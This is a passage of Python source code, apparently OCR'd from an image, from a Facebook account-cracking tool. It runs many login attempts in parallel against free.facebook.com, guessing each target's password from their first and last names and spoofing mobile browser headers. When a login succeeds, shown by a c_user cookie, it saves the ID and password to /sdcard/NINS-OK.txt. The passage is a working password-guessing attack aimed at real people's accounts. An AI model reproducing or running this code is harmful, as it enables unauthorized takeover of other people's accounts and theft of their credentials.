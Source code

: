 		cx=input(f'\n [?] Do you went show cp account? (y/n): ')
		if cx in ['n','N','no','NO','2']:
			pcp.append(f'n')
		else:
			pcp.append(f'y')
		with tred(max_workers=30) as crack_submit:
			clear()
			total_ids = str(len(fo))
			print(f' Total Account : \033[1;32m'+total_ids+f' \n \033[1;37mMethod : \033[1;37mM{mthd}')
			print(f"\033[1;37m Use flight mode for speed up\033[1;37m")
			linex()
			for user in fo:
				ids,names = user.split(f'|')
				passlist = plist
				if mthd in ['1','01']:
					crack_submit.submit(ffb,ids,names,passlist)
				elif mthd in ['2','02']:
					crack_submit.submit(api,ids,names,passlist)
				elif mthd in ['3','03']:
					crack_submit.submit(ffb1,ids,names,passlist)
				elif mthd in ['4','04']:
					crack_submit.submit(api1,ids,names,passlist)
				else:
					crack_submit.submit(api1,ids,names,passlist)
def ffb(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [NINS] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://free.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://free.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Shahin=session.cookies.get_dict().keys()
                        if "c_user" in Shahin:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [NINS-OK] %s | %s'%(ids,pas))
                                open(f'/sdcard/NINS-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                #cek_apk(session,coki)
                                oks.append(ids)
                                break
